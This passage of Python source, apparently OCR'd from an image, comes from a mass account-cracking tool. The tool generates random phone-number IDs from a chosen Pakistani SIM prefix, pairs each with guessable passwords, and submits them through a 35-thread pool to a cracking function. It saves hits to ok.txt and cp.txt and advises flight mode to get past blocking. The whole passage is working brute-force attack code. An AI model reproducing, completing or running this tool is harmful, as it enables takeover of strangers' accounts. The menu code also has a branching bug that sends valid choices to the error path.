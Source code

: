	loop+=1
def rifat1():
	os.system('clear')
	print(logo)
	print('\x1b[1;97m[1] Pak Random Method \x1b[1;92m[1]')
	print('\x1b[1;97m[2] Pak Random Method \x1b[1;92m[2]')
	print('\x1b[1;97m[3] Pak Random Method \x1b[1;92m[3]')
	print('\x1b[1;97m[4] Pak Random Method \x1b[1;92m[4]')
	print('\x1b[1;97m[5] Pak Random Method \x1b[1;92m[5]')
	print('\x1b[1;97m[6] Pak Random Method \x1b[1;92m[6]')
	print('\x1b[1;91m[7] Go to main menu')
	linex()
	opt = input('[âˆš] SELECT OPT: ')
	if opt =='1':
		random_number1()
	elif opt =='2':
		random_number2()
	elif opt =='3':
		random_number3()
	elif opt =='4':
		random_number4()
	if opt =='5':
		random_number5()
	if opt =='6':
		random_number6()
	
	else:
		print('\n\033[1;31mChoose valid option\033[0;97m')
		menu()
#____
def random_number1():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	linex()
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____